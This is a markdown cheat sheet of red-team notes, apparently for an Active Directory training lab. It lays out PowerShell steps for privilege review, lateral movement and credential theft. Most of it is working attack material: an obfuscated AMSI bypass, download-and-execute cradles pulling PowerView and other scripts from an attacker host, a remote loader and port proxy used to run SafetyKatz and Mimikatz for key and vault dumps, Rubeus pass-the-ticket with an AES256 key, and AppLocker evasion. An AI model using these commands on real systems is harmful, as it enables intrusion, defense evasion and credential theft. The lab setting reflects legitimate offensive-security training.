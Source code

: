 
> [!NOTE] **NOTE**
> **REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE** (BloodHound - PowerView)
> 
> ```powershell
>  Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
>  ```
>  
>  **Also search for Unconstrained and Constrained delegation abuse**


```powershell
ls env
```

```powershell
iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell
iex(iwr 'http://172.16.100.48/PowerView.ps1' -useb)
iex(iwr 'http://172.16.100.48/Invoke-SessionHunter.ps1' -useb)
iex(iwr 'http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1' -useb)

iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/PowerView.ps1'))
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1'))
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/Invoke-SessionHunter.ps1'))
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```

### Lateral 1 (Local Admin)
Add port forward to machine to forwards to webserver - downloading executable is bad
```powershell
iwr http://172.16.100.48/Loader.exe -OutFile C:\Users\Public\Loader.exe

echo F | xcopy C:\Users\Public\Loader.exe \\mgmtsrv.tech.finance.corp\C$\Users\Public\Loader.exe

$null | winrs -r:mgmtsrv.tech.finance.corp "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1"
```

Download from local loopback
```powershell
$null | winrs -r:mgmtsrv.tech.finance.corp "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::evasive-keys exit"

$null | winrs -r:techsrv30.tech.finance.corp powershell -c "iex (iwr http://172.16.100.1/sbloggingbypass.txt -useb);iex (iwr http://172.16.100.1/amsibypass.txt -useb);iex (iwr http://172.16.100.1/Invoke-MimiEx-vault.ps1 -useb);"
```

Note down the `aes256_hmac` and the cleartext credentials 
Use Rubues on attacking machine
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:techservice /aes256:7f6825f607e9474bcd6b9c684dc70f7c1ca977ade7bfd2ad152fd54968349deb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

This will create a logon type 9 so the new credentials will only be used when accessing domain resources

```powershell
net use A: \\TSCLIENT\AD

A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
cd C:\Users\Public; Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```
### Lateral 2 (Local Admin + AppLocker)
Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy to AppLocker safe folder - can't dot source
```powershell
copy C:\Users\Public\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv\c$\'Program Files'

copy C:\Users\Public\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1

& 'C:\Program Files\Invoke-MimiEx-keys.ps1'
& 'C:\Program Files\Invoke-MimiEx-vault.ps1'
```

> **Note**: If clear text creds are found, use `runas` to open cmd 
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

```powershell
A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```